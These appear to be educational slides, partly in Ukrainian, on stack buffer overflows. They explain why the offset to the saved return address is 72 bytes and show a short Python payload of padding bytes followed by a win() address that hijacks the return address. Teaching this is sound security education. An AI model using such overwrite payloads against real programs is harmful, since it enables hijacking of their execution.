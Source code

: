 ````md magic-move
# RIP = 0xdeadbeef → Offset = 72!
```
````

---

# Stage 05: Чому offset ≠ sizeof(buf)?

Compiler alignment

```
buf[64]     64 bytes
padding     0-15 bytes (align to 16)
saved RBP   8 bytes
saved RIP   8 bytes (offset = 64+padding+8)
```

**Наш випадок**: 64 + 0 + 8 = 72 байти

---

# Stage 05: Payload структура

Byte-by-byte breakdown

```python
payload = b'A' * 72          # buf + RBP
payload += p64(win_address)  # RIP

# [0..63]: buf[64] заповнений 'A'
# [64..71]: saved RBP = 'AAAAAAAA'
# [72..79]: saved RIP = адреса win()
```

---

# Stage 06: Що таке Buffer Overflow?

Визначення та небезпека

**Нормально:**
```
read(64) → buf[64]  ✅
```

**Overflow:**
```
read(100) → buf[64] → ... → RIP ❌
```

**Наслідок**: Контроль виконання програми

---
